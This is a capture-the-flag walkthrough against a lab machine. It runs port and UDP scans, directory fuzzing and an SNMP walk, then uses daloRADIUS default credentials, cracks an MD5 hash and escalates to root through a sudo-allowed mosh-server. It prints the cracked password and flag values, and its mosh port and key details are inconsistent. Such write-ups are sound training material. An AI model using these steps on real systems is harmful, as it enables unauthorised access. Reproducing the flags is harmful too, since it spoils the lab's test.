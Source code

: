 Let's scan the IP address
```bash
sudo nmap -v -sV -sC 10.10.11.48
```

![image](images/20250313203429.png)

When going to the site we see a simple Apache page

![image](images/20250313205738.png)

Scanning subdomains via `wfuzz` did not bring any results
```bash
wfuzz -c -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.10.10.11.48" http://10.10.11.48/
```
When scanning directories via `gobuster` the following directory was found `/server-status` with status `403 Forbidden`,
```bash
gobuster dir -u http://10.10.11.48/ --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![image](images/20250313211821.png)

Let's try to scan UDP ports
```bash
sudo nmap -sU 10.10.11.48
```

![image](images/20250313221531.png)

More open ports were found, including `SNMP`. Get hierarchical `SNMP` data from devices with `snmpwalk`
```bash
snmpwalk -v 2c -c public 10.10.11.48
```
, where:
- `-v 2c` - Specifies `SNMP` version `2c` (older, but common).
- `-c public` - Community string that functions as a password, in this case the default is `public`.

![image](images/20250313223944.png)


>[!info] Note
>The Simple Network Management Protocol (SNMP) is widely used to manage and monitor network devices such as routers, servers, and switches. The `snmpwalk` command queries `SNMP`-enabled devices, obtaining a variety of information.

We see that `daloradius` is mentioned. Let's try to navigate this directory

![image](images/20250313224545.png)

There may be other directories inside it. Let's try
```bash
ffuf -u http://10.10.11.48/daloradius/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

![image](images/20250313224646.png)

`app` was found. Let's switch to it and go through it further

![image](images/20250313225022.png)

```bash
ffuf -u http://10.10.11.48/daloradius/app/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

![image](images/20250313224759.png)

There are 3 directories: `common`, `users`, `operators`. Let's go to the page of each of them

![image](images/20250313224939.png)


![image](images/20250313224951.png)


![image](images/20250313225002.png)

As if the login form for `operators` is more interesting. After googling, I found the default login data for `daloRADIUS` - it's `administrator/radius`

![image](images/20250313225154.png)


![image](images/20250313225228.png)


![image](images/20250313225247.png)

In `Users` there is a user `svcMosh`, which has a password hash
```hash
412DD4759978ACFCC81DEAB01B382403
```

![image](images/20250313225516.png)

Let's crack this `MD5` hash
```bash
hashcat -m 0 svcMosh /usr/share/wordlists/rockyou.txt
```

![image](images/20250313225842.png)

Result:
```Password
underwaterfriends
```
Let's connect via `SSH`

![image](images/20250313225944.png)

<div style="page-break-after: always;"></div>

First flag
```flag
c1dbdbe705e681d3377cbb995e81de84
```
Let's check what `sudo` commands this user can run. We see that he can run `/usr/bin/mosh-server`. When this script is executed, the port `60002` and the session key `CQ/tXB74ShVVulAXAYY7MQ` are given. The server is waiting for a client to connect on this port with the specified key. To connect to `Mosh`, enter the command
```bash
MOSH_KEY=1C/28rYqT1xXjC4lqpRmQA mosh-client 127.0.0.1 60001
```

![image](images/20250313230641.png)

After sending the session key, we get the `root` terminal

![image](images/20250313230620.png)

Second flag
```flag
7a5817bb9452b7263d6a0a11353917fb
```

>**Mosh (Mobile Shell)** is a remote terminal application that uses UDP to provide reliable connections even over changing networks. This feature is especially useful for maintaining persistent shell sessions.

